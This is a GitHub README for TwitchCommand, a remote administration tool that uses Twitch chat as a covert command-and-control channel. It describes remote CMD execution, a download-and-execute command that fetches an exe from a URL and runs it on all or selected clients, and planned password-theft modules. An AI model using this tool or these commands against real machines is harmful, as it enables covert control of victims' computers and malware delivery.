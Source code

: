 # TwitchCommand [![Open Source Love](https://badges.frapsoft.com/os/v2/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/) [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`

`visit`  Silent site visit. Returns the site response after a successful execution. Structured as `visit link`

# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action true`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.
- True is just a placeholder value as I was too lazy to scrub \r\n off the final value. You can write anything.

An example cmd command would be:

`!act all cmd start. true`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe true`

It currently only supports exe files.

# Creating the program.
### Coming soon: a builder.
Making the program is quite simple. 
- Change the NICK value on line 10 to your Twitch username.
- Change the PASS value on line 11 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 12 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.

# Upcoming features
- More modules (password recovery coming soon.)
- Download & execute supporting all file types.
- Removing the requirement for 'true' in commands (proper scrubbing.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.
